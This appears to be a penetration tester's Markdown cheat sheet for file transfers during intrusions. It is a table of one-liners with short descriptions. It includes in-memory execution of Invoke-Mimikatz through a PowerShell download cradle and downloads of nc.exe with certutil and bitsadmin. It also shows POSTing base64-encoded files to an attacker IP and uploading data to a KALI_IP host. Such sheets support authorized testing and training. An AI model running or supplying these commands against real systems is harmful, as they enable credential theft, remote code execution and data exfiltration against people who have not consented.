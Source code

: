 [[Cheat Sheet - File Transfers]] duplicate 

| **Command**                                                                                                                     | **Description**                                       |
| ------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------- |
| `python3 -m http.server <port>`<br>or<br>`python -m SimpleHTTPServer <port>`<br>                                                | Host HTTP Server one-liner                            |
| `sudo impacket-smbserver -smb2support <SHARENAME> /home/kali/directory`                                                         | Host SMB server one-liner                             |
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`                                                         | Download a file with PowerShell                       |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`                                           | Execute a file in memory using PowerShell             |
| <br>`Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`<br>                                                 | Upload a file with PowerShell                         |
| `[Convert]::ToBase64String((Get-Content -path "c:\file\path" -Encoding byte))`                                                  | Base encode file, copy the string, then decode        |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`                                                                | Download a file using Bitsadmin                       |
| `certutil.exe -urlcache -split -f http://10.10.10.32/nc.exe <file_output(optional)>`<br><br>if this errors out, try other ports | Download a file using Certutil                        |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`                                | Download a file using Wget                            |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`                                | Download a file using cURL                            |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`                       | Download a file using PHP                             |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`                                                              | Upload a file using SCP                               |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`                                                                        | Download a file using SCP                             |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"`              | Invoke-WebRequest using a Chrome User Agent           |
| `xfreerdp /v:ip_address /u:username /p:password /dynamic-resolution +drive:data,/home/<user>`                                   | Drive redirection to gain access to files through RDP |
| `upload`<br>`download`                                                                                                          | upload or download whole directory with evil-winrm    |
| `Invoke-FileUpload -Uri http://<KALI_IP>:8000/upload -File C:\path\to\file`                                                     | Upload a file using PSUpload.ps1                      |
|                                                                                                                                 |                                                       |

